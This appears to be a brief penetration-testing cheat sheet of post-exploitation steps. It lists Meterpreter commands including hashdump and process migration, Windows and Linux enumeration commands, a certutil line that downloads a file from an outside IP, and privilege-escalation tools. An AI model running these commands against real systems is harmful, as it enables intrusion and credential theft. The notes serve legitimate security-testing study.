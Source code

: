 ## Meterpreter
### getuid
### sysinfo
### hashdump
### Enumerators
```
run post/multi/recon/local_exploit_suggester
```
### Use different process
```
ps
migrate
```
## Cmd
### route print
### netstat -ano
### arp -a
### wget
```
certutil -urlcache -f http://123.123.123.123/file c:/user/administrator/file
```

## Bash
```
sockstat -l
cat .bash_history
history
sudo -l
```

## Others
### LinEnum
### linuxprivchecker.py
### pspy32
Find scheduled jobs without root
### windows exploit suggester
```
python windows-exploit-suggester.py --database 2020-05-19-mssb.xls --systeminfo systeminfo.txt
```
### https://www.fuzzysecurity.com/tutorials/16.html

